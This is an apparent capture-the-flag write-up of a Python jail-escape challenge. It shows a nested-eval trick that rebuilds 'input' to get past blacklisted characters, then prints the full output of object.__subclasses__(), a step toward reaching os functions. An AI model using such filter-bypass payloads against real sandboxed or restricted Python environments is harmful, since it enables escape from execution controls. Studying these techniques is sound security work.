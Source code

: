 ```
Python leave you must, to be master real!
```

**Solution**

Because of the previous challenge we know

we can use `input` to execute pretty much anything and bypass the blacklisted chars

Let's print all subclasses()

```python
>>> a = print(eval(eval("inp"+eval.__doc__[3+1]+"t()")))
"".__class__.__mro__[1].__subclasses__()
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>,
 <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>,
 <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>,
 <class 'dict_items'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>,
 <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>,
 <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>,
 <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>, <class 'function'>,
 <class 'mappingproxy'>, <class 'generator'>, <class 'getset_descriptor'>, <class 'wrapper_descriptor'>, <class 'method-wrapper'>, <class 'ellipsis'>,
 <class 'member_descriptor'>, <class 'types.SimpleNamespace'>, <class 'PyCapsule'>, <class 'longrange_iterator'>, <class 'cell'>, <class 'instancemethod'>, <class 'classmethod_descriptor'>,
 <class 'method_descriptor'>, <class 'callable_iterator'>, <class 'iterator'>, <class 'coroutine'>, <class 'coroutine_wrapper'>, <class 'EncodingMap'>, <class 'fieldnameiterator'>,
 <class 'formatteriterator'>, <class 'filter'>, <class 'map'>, <class 'zip'>, <class 'moduledef'>, <class 'module'>, <class 'BaseException'>,<class '_frozen_importlib._ModuleLock'>, <class '_frozen_importlib._DummyModuleLock'>,
 <class '_frozen_importlib._ModuleLockManager'>, <class '_frozen_importlib._installed_safely'>, <class '_frozen_importlib.ModuleSpec'>, <class '_frozen_importlib.BuiltinImporter'>,
 <class 'classmethod'>, <class '_frozen_importlib.FrozenImporter'>, <class '_frozen_importlib._ImportLockContext'>, <class '_thread._localdummy'>, <class '_thread._local'>,
 <class '_thread.lock'>, <class '_thread.RLock'>, <class '_frozen_importlib_external.WindowsRegistryFinder'>, <class '_frozen_importlib_external._LoaderBasics'>, <class '_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._NamespacePath'>, <class '_frozen_importlib_external._NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>, <class '_frozen_importlib_external.FileFinder'>, <class '_io._IOBase'>, <class '_io._BytesIOBuffer'>,
 <class '_io.IncrementalNewlineDecoder'>, <class 'posix.ScandirIterator'>, <class 'posix.DirEntry'>, <class 'zipimport.zipimporter'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'>,
 <class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class 'abc.ABC'>,
 <class 'collections.abc.Hashable'>, <class 'collections.abc.Awaitable'>, <class 'collections.abc.AsyncIterable'>, <class 'async_generator'>, <class 'collections.abc.Iterable'>, <class 'bytes_iterator'>,
 <class 'bytearray_iterator'>, <class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'dict_itemiterator'>, <class 'list_iterator'>, <class 'list_reverseiterator'>, <class 'range_iterator'>,
 <class 'set_iterator'>, <class 'str_iterator'>, <class 'tuple_iterator'>, <class 'collections.abc.Sized'>, <class 'collections.abc.Container'>,
 <class 'collections.abc.Callable'>, <class 'os._wrap_close'>, <class '_sitebuiltins.Quitter'>,
 <class '_sitebuiltins._Printer'>, <class '_sitebuiltins._Helper'>]
```
